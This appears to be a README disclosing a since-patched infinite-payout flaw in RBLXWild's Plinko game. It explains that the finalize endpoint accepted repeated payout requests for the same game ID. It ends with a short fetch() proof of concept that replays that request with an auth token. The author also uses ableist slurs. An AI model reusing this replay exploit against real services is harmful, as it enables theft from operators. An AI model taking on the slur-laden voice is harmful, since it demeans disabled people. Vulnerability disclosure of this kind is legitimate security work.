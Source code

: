 # RBLXWild Infinite Balance Bug
Infinite balance vulnerability found on RBLXWild at 00:28 on 29/4/2023 ~ PATCHED

# How it worked?
Plinko...

The plinko gamemode functioned in a really retarded way on RBLXWild, here is how:

# Betting
**When you place a bet, a request to this endpoint: `https://rblxwild.com/api/game/plinko/play` is sent**

**This request contains: `rows`, `bet amount`, `risk`**

**The response contains information about your payout, including `game id`**

# Retarded part
Now for some reason this is where the developers are really smart (sarcasm if you couldnt tell)

For some spastic reason, your plinko game will be payed out with a request to this endpoint: `https://rblxwild.com/api/game/plinko/finalize`

But the smart developers over at RBLXWild thought: "Ah, lets not add a limit to how many times the user can send this requests"

Basically meaning that you can infinitely send payout requests and just keep getting them

# Example

User makes a plinko game with 1k Robux, this hits an 8x on plinko.

RBLXWild then posts to `https://rblxwild.com/api/game/plinko/finalize` with the game ID, in order to get your payout.

EXPLOIT: The user then posts to the `https://rblxwild.com/api/game/plinko/finalize` endpoint with the game ID aswell, and gets a second payout

You can keep repeating the post requests to get infinite payouts

# Proof of concept

8 lines is what almost bankrupted a casino, here they are:

```
fetch("https://rblxwild.com/api/game/plinko/finalize", {
  "headers": {
    "authorization": "authToken here",
    "content-type": "application/json"
  },
  "body": "{\"gameId\":Game ID with a high payout here}",
  "method": "POST"
});
```

# Thanks
Thanks,

Tesco#6560 / rambletrick
